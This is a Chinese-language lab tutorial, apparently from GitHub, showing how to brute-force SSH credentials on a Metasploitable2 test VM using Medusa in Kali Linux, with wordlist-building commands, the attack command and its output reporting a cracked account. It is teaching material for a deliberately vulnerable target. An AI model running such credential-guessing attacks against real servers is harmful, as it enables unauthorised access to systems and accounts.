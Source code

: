 ## 使用Medusa暴力破解ssh账号密码

1. 进入kali系统
2. 系统本身自带了这个工具， 在应用程序-Kali Linux-密码攻击-在线攻击-medusa
3. 打开后会进入shell终端，显示的是medusa的帮助
4. 先生成用户和密码文件，这个取决于自己，可以生成N个密码和账户，挨着去测试。
5. 本身我们就知道metasploitable2的账号密码，作为测试就生成这几个就可以了。
```bash
[root@kali: ~#] echo -e "msfadmin\nroot\nuser\npostgres\nsys\nklog\nservice" >> user.txt
[root@kali: ~#] echo -e "1234567\nmeiyoumima\nuser\n123456789\nmsfadmin\npostgres\nbatman\nservice" >> passwd.txt
[root@kali: ~#] cat user.txt
msfadmin
root
user
postgres
sys
klog
service
[root@kali: ~#] cat passwd.txt
1234567
meiyoumima
user
123456789
msfadmin
postgres
batman
service
#用户和密码文件都生成了
#开始用medusa暴力破解
root@kali:~# medusa -h metasploitable2 -U user.txt -P passwd.txt -M ssh

ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: 1234567 (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: metasploitable2 (1 of 1, 0 complete) User: msfadmin (1 of 7, 0 complete) Password: meiyoumima (2 of 8 complete)
ACCOUNT FOUND: [ssh] Host: metasploitable2 User: msfadmin Password: meiyoumima [SUCCESS]
```
6. 以上就是medusa的基本使用方式，最后得到结果，可以加上`-O`把成功的
用户密码输出到日志文件中，更多使用方式请查看`medusa --help`